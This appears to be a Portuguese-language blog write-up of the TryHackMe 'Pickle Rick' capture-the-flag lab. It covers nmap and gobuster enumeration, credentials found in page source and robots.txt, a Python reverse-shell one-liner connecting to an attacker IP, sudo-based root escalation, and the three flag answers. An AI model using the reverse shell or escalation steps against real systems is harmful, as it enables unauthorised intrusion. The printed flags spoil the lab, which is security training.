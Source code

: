 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryHackMe - Pickle Rick - Fácil
date: 2024-01-13 11:47:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, web, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![piclericky](/assets/img/pickrick3.jpg){: w="100" h="100" .left}

---
# CTF - Pickle Rick
---
---
## Enumeração

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sVC 10.10.13.28 -T4

tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 01:22 EST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 01:22 (0:00:00 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:22 (0:00:06 remaining)
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 01:22 (0:00:00 remaining)
Nmap scan report for 10.10.13.28
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:a9:c6:8e:d9:b8:20:47:8c:f1:e4:48:64:d2:56:85 (RSA)
|   256 e1:42:f1:cb:9f:a7:77:6c:04:06:4a:92:bf:0f:0c:e2 (ECDSA)
|_  256 e8:61:39:6b:3e:38:4d:ec:bd:81:6f:73:4c:c1:31:ca (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds

```
{: .nolineno }



É um website

Encontrado no código fonte da paginal inicial

```text
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
{: .nolineno }
### gobuster

```shell
gobuster dir -u http://10.10.13.28 -t 100  -w  /usr/share/wordlists/dirb/big.txt -r --no-error -e  -x php,txt,old

==============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.13.28/.php                 (Status: 403) [Size: 290]
http://10.10.13.28/.htpasswd.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.old             (Status: 403) [Size: 294]
http://10.10.13.28/.hta                 (Status: 403) [Size: 290]
http://10.10.13.28/.hta.txt             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.php             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess.txt        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.txt        (Status: 403) [Size: 299]
http://10.10.13.28/assets               (Status: 200) [Size: 2190]
http://10.10.13.28/denied.php           (Status: 200) [Size: 882]
http://10.10.13.28/index.html           (Status: 200) [Size: 1062]
http://10.10.13.28/login.php            (Status: 200) [Size: 882]
http://10.10.13.28/portal.php           (Status: 200) [Size: 882]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/server-status        (Status: 403) [Size: 299]
Progress: 18456 / 18460 (99.98%)
```
{: .nolineno }
login page encontrada http://10.10.13.28/login.php


```text
robots.txt

Wubbalubbadubdub
```
{: .nolineno }
index of em /assets contendo apenas algumas imagens e scripts

![indexoff](/assets/img/picklerick1.png)

## Acesso

login efetuado com sucesso 

Login: R1ckRul3s
Senha: Wubbalubbadubdub

http://10.10.13.28/portal.php

WebShell após o login

![webshell](/assets/img/picklerick2.png)

Permitido executar alguns comandos,os outro menus são bloqueados e direcionado para
http://10.10.13.28/denied.php

### Reverse Shell

Listei necat e executei shell reverse  nesta pagina

```python
export RHOST="10.6.125.125";export RPORT=4443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{: .nolineno }

Primeira flag encontrada

```shell
www-data@ip-10-10-165-48:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
{: .nolineno }
## Escalação de Privilégio

```shell
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-165-48.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-165-48.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-165-48:/home/rick$ sudo /bin/bash
sudo /bin/bash
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Segunda Flag

```shell
root@ip-10-10-165-48:/home/rick# cat "second ingredients"
cat "second ingredients"
1 jerry tear
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Terceira Flag

```shell
root@ip-10-10-165-48:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-165-48:~# 
```
{: .nolineno }